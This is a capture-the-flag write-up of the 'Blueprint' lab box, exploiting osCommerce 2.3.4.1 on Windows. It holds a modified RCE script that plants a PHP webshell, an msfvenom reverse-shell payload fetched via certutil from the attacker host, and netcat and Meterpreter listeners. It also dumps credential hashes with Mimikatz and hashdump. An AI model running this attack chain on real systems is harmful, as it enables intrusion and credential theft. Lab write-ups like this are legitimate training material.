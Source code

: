 Blueprint writeup(OSCP ✅ Metasploit)

### Nmap
`nmap -T4 -p- IP -vv`
```
Scanning 10.10.178.111 [65535 ports]
Discovered open port 445/tcp on 10.10.178.111
Discovered open port 80/tcp on 10.10.178.111
Discovered open port 3306/tcp on 10.10.178.111
Discovered open port 139/tcp on 10.10.178.111
Discovered open port 135/tcp on 10.10.178.111
Discovered open port 8080/tcp on 10.10.178.111
Discovered open port 443/tcp on 10.10.178.111

```

I normally try web services ports first. `80, 8080, 443`
The cms `osCommerce` is so obvious. All left to do is just to find the version for searching exploits.

### searchsploit
`searchsploit osCommerce 2.3.4`
```                                                                     |  Path
-------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                           | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                         | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                      | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                       | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                          | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                            | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                            | php/webapps/44374.py
-------------------------------------------------------------------------------------- ---------------------------------
```

Those 2 seems what we want
```
osCommerce 2.3.4.1 - Arbitrary File Upload               
osCommerce 2.3.4.1 - Remote Code Execution  
```
Both of them works as you may see it been used in some other writeups. But the first one requires installing a database that is too loud might alert the admin users. Let's go with the latter one.

`searchsploit -m 44374.py` to make a copy to the current path. then open it with your favourite editor. I did with `subl 44374.py` since I use sublime.

Can also reach it on exploit db. https://www.exploit-db.com/exploits/44374

line17 has a double slash typo `base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"` it's no big deal but it better to fix it by simply remove it.

`base_url = "http://localhost/oscommerce-2.3.4.1/catalog/"`

### Real journey starts now
After setting up your baseurl and target url, you can just run the script `python3 44374.py`.
Found the system blocked the `system` keyword for php. 
A little googling shows some alternative.
https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec
https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

`shell_exec` and `exec`

#### windows trick/tip/hole here
I tried to see if `shell_exec` or `exec` can be executed.
```
// on Kali
sudo tcpdump -i tun0 icmp
// on 44374.py
payload += 'shell_exec("ping -c 5 ip");'
```
Nothing happened. I can't get them back and it seems not been executed at all. I lost hours here as I was trying some random reverse shell plus other wrong things. **SOLVER**: `ping` for windows `-c` is a wrong parameter. `-n` is what we want.

### Python and PHP payload?
I didn't notice this first. You'll need to find a way out to see the output since your payload is in PHP comments. But the script is in Python.
I didn't try `var_dump(); die();`. It might work for you. These are the final code changes for the webshell.

```
payload = '\');'

# payload += 'exec("ping -n 5 10.x.x.x");'
# payload += '$var = shell_exec("ping -n 5 10.x.x.x");'
# payload += 'echo $var;'

payload += '$var = shell_exec($_GET["cmd"]);'
payload += 'echo $var;' # output make it a real webshell

payload += '/*'
```

### Root flag
```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=whoami
```
You already have root by running `whoami`. `type c:\....\desktop\root.txt.txt` 



### Both OSCP approved Metasploit Usage and non-Metasploit way
https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide

OSCP official doc: You may use the following against all of the target machines:

* multi handler (aka exploit/multi/handler)
* msfvenom
* pattern_create.rb
* pattern_offset.rb

To get a revershell only need the first two.

Generate the payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=12345 -f exe > shell.exe

and make it available for the target to reach
python3 -m http.server 80
```

### windows target get payload from attack(transfer files)
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/


```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=certutil -urlcache -f http://ip/shell.exe shell.exe
```

after setup listeners run `shell.exe` to trigger it from the webshell

#### Not using Metasploit
`rlwrap nc -lvnp 12345` to get a better reverse shell. Then upload a `Mimikatz.exe` just like uploading the `shell.exe`.  Use it with commanding `lsadump::sam` to reveal all the hashes.

#### Metasploit exploit/multi/handler
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 12345
exploit
```
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.x.x.x:12345 

[*] Sending stage (175174 bytes) to 10.10.173.99
[*] Meterpreter session 1 opened (10.x.x.x:12345 -> 10.10.173.99:49500) at 2021-05-16 12:02:18 +1200

meterpreter > hashdump
Administrator:500:xxxx:xxxx:::
Guest:501:xxxx:xxxxxxx:::
```
Just run `hashdump` after the shell connected. The hash between `:hash:::`is what you want to crack for. Job well done.

